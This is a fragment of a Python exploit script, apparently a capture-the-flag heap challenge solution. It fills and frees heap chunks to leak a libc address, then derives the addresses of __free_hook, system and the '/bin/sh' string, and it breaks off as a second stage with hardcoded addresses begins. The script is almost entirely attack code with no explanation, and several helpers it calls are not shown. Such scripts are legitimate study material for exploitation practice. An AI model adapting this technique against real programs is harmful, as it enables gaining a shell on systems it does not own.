 ```python

def set(w, l, f):
    return op3('+', w, l, f)

def zero(w, l):
    return op4('-', w, l)

def w(num):
    return 'w' * num 

def s(num):
    return 's' * num 

def a(num):
    return 'a' * num 

def d(num):
    return 'd' * num 

def show():
    return 'p'

data = []

# leak libc 
def exp1():

    payload = b''
    payload += map(0x10, 0x10)
    for i in range(8):
        payload += new(0, i, 0x90,'a')
    payload += new(1, 1, 0x20, 'b')
    for i in range(8):
        payload += dele(0, i)
    for i in range(7):
        payload += new(0, i, 0x90,'a')
    payload += new(0, 7, 0x90, 'a'*7)
    payload += show()
    payload += w(1)

    sla("cmd>", payload)

    for i in data:
        sl(i)

    ru('a' * 7 + '\n')
    blibc = u64(cn.recvuntil("\npos:1,1", True).ljust(8, b'\x00')) + 0x4000000000 - 0x154ad0
    slog['blibc'] = blibc

    hfree  = blibc + 0x156630 
    system = blibc + 0x3f2c8
    binsh  = blibc + 0x128720
    slog['hfree']  = hfree
    slog['system'] = system 
    slog['binsh']  = binsh 


def exp2():
    binsh  = 0x4000989720
    system = 0x40008a02c8
    hfree  = 0x40009b7630

    payload = b''
```